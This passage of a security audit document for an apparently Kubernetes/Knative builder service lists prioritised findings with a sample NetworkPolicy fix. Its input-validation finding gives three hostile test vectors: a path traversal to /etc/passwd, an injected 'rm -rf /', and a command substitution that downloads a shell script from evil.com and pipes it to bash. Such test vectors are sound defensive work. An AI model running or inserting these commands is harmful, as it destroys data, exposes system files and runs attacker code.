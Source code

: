 #### 4. Input Validation Completeness Unknown
**Status**: ⚠️ Needs Review  
**Files**: `internal/security/security.go`  
**Impact**: Code injection, command injection, path traversal  
**Test Vectors**:
- BuildID: `../../etc/passwd`
- ImageName: `evil; rm -rf /`
- SourceCode: `$(curl evil.com/shell.sh | bash)`

#### 5. Secret Management Not Documented
**Status**: 🔴 No threat model (IMPROVEMENT_PLAN.md notes)  
**Impact**: Secret leakage, unauthorized access  
**Remediation**:
- Document secret rotation strategy
- Scan for secrets in code/containers
- Implement secret scanning in CI

---

### 🟠 P1 - High (Fix Within Sprint)

#### 6. Network Policies Missing
**Status**: ⚠️ Needs Verification  
**Impact**: Lateral movement, data exfiltration  
**Remediation**:
```yaml
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: knative-lambda-netpol
spec:
  podSelector:
    matchLabels:
      app: knative-lambda-builder
  policyTypes:
  - Ingress
  - Egress
  ingress:
  - from:
    - namespaceSelector:
        matchLabels:
          name: knative-eventing
  egress:
  - to:
    - namespaceSelector:
        matchLabels:
          name: kube-system
    ports:
    - protocol: TCP
      port: 53  # DNS
  - to:
    - namespaceSelector: {}
    ports:
    - protocol: TCP
      port: 443  # Kubernetes API
```
